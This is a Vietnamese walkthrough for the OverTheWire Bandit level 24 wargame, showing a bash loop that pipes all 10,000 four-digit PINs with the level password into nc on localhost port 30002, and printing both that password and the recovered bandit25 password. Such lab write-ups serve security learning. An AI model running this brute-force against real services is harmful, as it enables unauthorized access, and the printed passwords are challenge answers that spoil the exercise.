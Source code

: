 

# Bandit Level

## 🧩 Challenge: Level 24

## 📝 Description
Một daemon đang lắng nghe trên cổng 30002 và sẽ cung cấp cho bạn mật khẩu của bandit25 nếu bạn cung cấp mật khẩu của bandit24 và một mã pin bí mật gồm 4 chữ số. Không có cách nào để lấy lại mã pin ngoại trừ việc thử tất cả 10000 tổ hợp, được gọi là tấn công vét cạn.
Bạn không cần phải tạo kết nối mới mỗi lần.


> Link: https://overthewire.org/wargames/bandit/bandit25.html

---


## 🛠️ Cách giải

1. chuyển vào thư mục tạm `tmp` tạo file `basher.sh`

```
cd /tmp/
nano basher.sh
```

2. Viết code sau để tấn công brute-force

```
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
    echo "$pass $pin"
done | nc localhost 30002
```

- Vì kết nối chỉ kéo dài khoảng vài giấy nên mỗi lần quét ta tăng giá trị lên tầm `1000`



## 🏁 Password

```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
